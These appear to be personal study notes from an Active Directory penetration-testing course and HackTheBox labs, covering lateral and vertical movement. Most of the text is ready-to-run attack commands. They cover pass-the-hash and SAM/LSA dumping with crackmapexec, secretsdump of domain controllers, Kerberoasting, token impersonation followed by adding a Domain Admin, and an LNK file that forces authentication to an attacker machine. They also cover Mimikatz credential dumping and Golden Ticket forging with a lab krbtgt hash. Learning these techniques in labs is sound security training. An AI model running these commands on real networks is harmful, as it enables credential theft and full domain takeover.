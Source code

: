 
![[Pasted image 20241116130150.png]]

>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```




- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```

```
secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
```



- [ ] Dumping and Cracking Hashes

```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```

```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```




- [ ] Kerberoasting

```
GetUserSPNs.py MARVEL.local/<usernname>:<password> -dc-ip <ip_address> -request
```

```
If it's never a logon in an account that could be a Honeypot account
```






- [ ] Token Impersonation

Delegate Token are for login's & RDP
Incognito

MSF-Console
![[Pasted image 20241112174826.png]]


```
load incognito
```
![[Pasted image 20241112175259.png]]

```
list_token -u
list_token -g
```

```
impersonate_token marvel\\fcastle
```

```
shell 
rev2self
getuid
```


```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```





- [ ] LNK File Attacks


```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker_machine_IP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```


```
sudo responder -I eth0 -dwPv
```


Automated attack using CME/Net Exec:

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```


Additional resources for forced authentication: [Red_Team_Offensive_Security](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)







- [ ] GPP / cPassword Attacks

GPP -> gpp-decrypt -> msf -> smb_enum_gpp

```
gpp-decrypt
```



- [ ] Mimikatz

https://github.com/gentilkiwi/mimikatz



- [ ] Credential Dumping with Mimikatz

```
privilege::
```

```
sekurlsa::logonpasswords
```

```
privilege::debug
```

```
sekurlsa::
```

```
sekurlsa::logonPasswords
```



- [ ] Post-Compromise Attack Strategy

```
Enumerate what is Bloodhound telling us, what are the quick winds there, who are our users, where are our domain admins, do we have access to any machines that are potentially sensitive.

Where does our account have access ?_?

Do we have access to file shares, can we maybe look up sensitive files, can we log in with our account to different locations.

Maybe we can check our email or we can look at service desk tickets, or log into different areas, maybe that leads to another form of compromise, or it leads to some other information that we can gather.
```

![[Pasted image 20241116130213.png]]

>[! bug] Keep In Mind

## Attack
Certificate attack

## Tool
Certipy


## Golden Ticket

```
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local  Wedontexist
```

To get the domain SID
```
GET-ADDomain htb.local
```

```
cd /usr/share/doc/python3-impacket/examples
```

```
export KRB5CCNAME=Wedontexist.ccache 
```

```
psexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```

